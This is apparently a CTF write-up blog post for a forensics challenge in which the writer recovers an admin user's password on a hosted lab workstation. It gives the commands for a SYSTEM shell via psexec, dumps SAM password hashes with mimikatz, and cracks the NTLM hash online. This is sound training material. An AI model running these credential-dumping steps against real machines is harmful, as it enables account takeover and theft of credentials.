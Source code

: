 ```yaml
---
title: "Crimson Initiate"
date: 2024-07-01T13:11:20-10:01
tags: ['CTF','Writeups','Forensics','Hard']
---
```



# [Home](https://jjolley91.github.io/blog/) >

###  [Cyber Defense CTF](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/) >  [Forensics](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/Forensics/)

## [Back](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/Forensics/puzzle_pieces)  <> [Next](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/incident_response/)

#### NOTE - The resources needed for this challenge are on the Cyber Defense CTF Triage Workstation VM on our hosted platform.

### Let's dabble a bit on the offensive side. There is a user named crimson with admin privileges on the Triage Workstation. Use any method you prefer to get the user's password. The password is the flag.

#### You are able to download tools to the workstation if need be

For this challenge we are directed again to the Cyber Defense CTF Triage Workstation, and told that there is a user on the system named 'Crimson'. The objective is to retrieve their password. 

We can do this quite easily if we use [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)!

Once mimikatz is downloaded and extracted, we can open a cmd prompt as the System user:

```powershell
psexec -i -s cmd.exe
```

Then we can start mimikatz and dump the NTLM hashed passwrods for all the users and look for the user Crimson.

```cmd
.\mimikatz.exe

privilege::debug

lsadump::sam
```

![crimson_initate_1](https://github.com/jjolley91/blog/tree/main/static/le_ctf_24/crimson_initate_1.png?raw=true)

Now that we have the NTLM hash all we need to do is crack it using your software of choice. I went with [Crackstation](https://crackstation.net/) for this, which cracked the hash without any issue, since it was a weak password.

![crimson_initate_2](https://github.com/jjolley91/blog/tree/main/static/le_ctf_24/crimson_initate_2.png?raw=true)


#### Note: This flag does not need to be in the leveleffect{} wrapper.

## [Back](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/Forensics/puzzle_pieces)  <> [Next](https://jjolley91.github.io/blog/level_effect_cyber_defense_ctf_2024/incident_response/)